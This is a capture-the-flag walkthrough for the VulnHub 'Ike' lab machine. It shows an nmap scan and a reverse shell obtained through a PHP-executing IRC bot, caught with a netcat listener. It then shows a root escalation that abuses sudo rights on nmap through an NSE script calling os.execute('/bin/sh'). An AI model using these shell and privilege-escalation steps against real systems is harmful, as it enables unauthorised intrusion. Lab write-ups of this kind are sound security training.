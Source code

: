 
Ike

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Connecting to IRC channel
[+] Sending reverse shell to PHP bot on channel
[+] Privilege Escalation abusing SUDO rights - /usr/bin/nmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Nmap scanning
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.101
Host is up (0.00083s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: irc.ike.local
|   users: 2
|   servers: 1
|   chans: 1
|   lusers: 2
|   lservers: 0
|   source ident: nmap
|   source host: 192.168.56.102
|_  error: Closing link: (nmap@192.168.56.102) [Client exited]
MAC Address: 08:00:27:A2:16:16 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Hosts: IKE, irc.ike.local

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: IKE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: ike
|   NetBIOS computer name: IKE\x00
|   Domain name: \x00
|   FQDN: ike
|_  System time: 2019-10-04T14:46:02+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-10-04 08:46:02
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.83 ms 192.168.56.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.49 seconds

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


There is an IRC channel
Connecting to it with HexChat we find a bot listening on channel #php. This bot executes commands in php.
system and other commands are restricted
By enetering the following into the chat on channel #php we get a reverse shell
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/ike/ike.png)

Reverse shell on port 1234

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 59038
id
uid=1001(ike) gid=1001(ike) groups=1001(ike),27(sudo)
python -c 'import pty;pty.spawn("/bin/bash");'
ike@ike:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Privilege Escalation
User ike has privileges to run root with sudo -l on /usr/bin/nmap

In ordet to gain root priileges, we have to create a nse script, to run the script and get root.


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
ike@ike:~$ sudo -l
sudo -l
Matching Defaults entries for ike on ike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ike may run the following commands on ike:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/nmap
ike@ike:~$ sudo /usr/bin/nmap -V
sudo /usr/bin/nmap -V

Nmap version 7.60 ( https://nmap.org )
Platform: x86_64-pc-linux-gnu
Compiled with: liblua-5.3.3 openssl-1.1.0g nmap-libssh2-1.8.0 libz-1.2.8 libpcre-8.39 libpcap-1.8.1 nmap-libdnet-1.12 ipv6
Compiled without:
Available nsock engines: epoll poll select
ike@ike:~$ echo "os.execute('/bin/sh')" > /tmp/shell.nse
echo "os.execute('/bin/sh')" > /tmp/shell.nse
ike@ike:~$ sudo nmap --script=/tmp/shell.nse
sudo nmap --script=/tmp/shell.nse

Starting Nmap 7.60 ( https://nmap.org ) at 2019-10-04 15:21 CEST
# id
uid=0(root) gid=0(root) groups=0(root)
# 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
